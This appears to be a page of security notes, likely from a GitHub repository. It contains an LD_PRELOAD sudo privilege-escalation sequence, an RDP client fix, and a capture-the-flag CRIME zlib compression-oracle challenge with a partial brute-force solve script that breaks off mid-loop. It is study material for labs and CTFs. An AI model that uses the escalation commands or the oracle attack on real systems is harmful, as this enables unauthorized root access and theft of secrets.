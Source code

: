 ```bash
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
ls -al shell.so
sudo LD_PRELOAD=/tmp/shell.so find
id
whoami
```

- Result

![image](https://github.com/user-attachments/assets/a725c60e-a430-4e05-8683-e2f98204eaff)


------------------

### Xfreerdp error:

![image](https://github.com/user-attachments/assets/917ff8b7-50d8-4a0f-b442-34737f6f93db)

- Fix-: Remmina

![image](https://github.com/user-attachments/assets/53fc3a51-1ce9-40e5-94fe-fdfa5f3ae062)

- In the case of Remmina, set the `TLS` level to `0` in the case of Windows 7 rdp as seen in the image above.

------------------

### CRIME PROBLEM with zlib compression-:

- Challenge Code-:

```python3
import os
import json
import zlib

def lambda_handler(event, context):
    try:
        payload=bytes.fromhex(event["queryStringParameters"]["payload"])
        flag = os.environ["flag"].encode()
        message = b"Your payload is: %b\nThe flag is: %b" % (payload, flag)
        compressed_length = len(zlib.compress(message,9))
    except ValueError as e:
        return {'statusCode': 500, "error": str(e)}

    return {
        'statusCode': 200,
        'body': json.dumps({"sniffed": compressed_length})
    }
```

- Solve

```python3

#!/usr/bin/env python3
import requests
import json

base_url = 'https://55nlig2es7hyrhvzcxzboyp4xe0nzjrc.lambda-url.us-east-1.on.aws/?payload='

flag = 'udctf{'
while True:
    for code in range(33, 127):
        print('[+] Try flag:', flag + chr(code))
        url = base_url + (flag + chr(code)).encode().hex()
        r = requests.get(url)
```